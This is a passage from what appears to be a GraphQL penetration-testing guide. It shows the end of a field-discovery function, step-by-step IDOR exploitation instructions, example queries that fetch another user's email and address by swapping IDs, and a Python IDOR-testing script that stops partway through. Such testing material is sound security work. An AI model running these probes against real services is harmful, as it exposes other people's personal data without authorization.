            return discovered_fields
       
       # Example usage
       discover_fields_via_suggestions("https://target.com/graphql")
       ```

  - **Exploiting unsanitized arguments**
    1. **Identifying IDOR vulnerabilities**:
       - Step 1: Find queries that accept object identifiers
       - Step 2: Test accessing other users' data by changing IDs
       - Step 3: Try sequential IDs, UUIDs, or encoded identifiers
       - Step 4: Check for authorization verification
       - Step 5: Document accessible resources
       - Example query with IDOR:
       ```graphql
       # Original query
       {
         user(id: "current_user_id") {
           email
           profile {
             fullName
             address
           }
         }
       }
       
       # IDOR exploitation
       {
         user(id: "another_user_id") {
           email
           profile {
             fullName
             address
           }
         }
       }
       ```
       - Python script for IDOR testing:
       ```python
       import requests
       import json
       
       def test_idor(url, query_template, id_list):
           headers = {"Content-Type": "application/json"}
           results = {}
           
           for test_id in id_list:
               query = query_template.replace("{{ID}}", test_id)
               response = requests.post(url, headers=headers, json={"query": query})
               